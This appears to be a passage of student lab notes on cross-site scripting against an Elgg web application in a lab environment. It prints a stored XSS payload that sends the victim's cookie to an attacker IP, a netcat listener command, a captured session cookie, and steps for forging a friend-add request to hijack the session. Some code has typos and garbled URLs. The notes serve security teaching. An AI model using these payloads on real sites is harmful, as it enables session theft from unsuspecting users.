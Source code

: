 
## Task 3 : Stealing cookies from the victim’s machine
- provide code in the 'about me' section
  - obtain the cookie without having to be preset when the account of user11 is visited.
- injects a code that basically is a `GET request` for an image and also adds the cookie of the victim in the url itself.

```js
// send out the cookies using http GET
<script>
document.write('<img src=http网址attackerIP:5555?c= ' + escape(decument.cookie) + ' >');
</script>
```

- when the browser tries to load the image from the URL in the `src` field
- an `HTTP GET request` sent to the attacker’s machine.
    - in the mean time, it sends the cookies to the `port 5555` of the attacker’s machine


- the attacker has a TCP server listening to the same port.
    - `$ nc -l 5555 -v`
- The server can print out whatever it receives.
- The next time someone on the web application, say alice visits the profile of user11, the code gets executed and the attacker gains the cookie for himself. The nc output seems like -


```
// The cookie starts after %3D.

GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

---

## Task 4 : session hijacking using the stolen cookies
- stealing the session of a legitimate user by using their cookie and then add the victim as a friend.

### capture the GET request packet
- the process of adding a friend has to be known to the attacker.
  - the attacker creates another account say samy.
  - This account can be added as a friend to user11's account to observe the process of adding a friend.
- The attacker logs in to the account of samy and visits user11.
  - Then he enables the inspect mode of the browser
  - watch the requests and cookies as he adds user11 as a friend to samy.
- The friend adding process then shows a `GET request`
  - `http网址www.xsslabelgg.com/action/friends/add?friend=43&__elgg_ts=15281&__elgg_token=f0aaabcel`
  -                                                 userid &   Time Stamp  &  Security Token
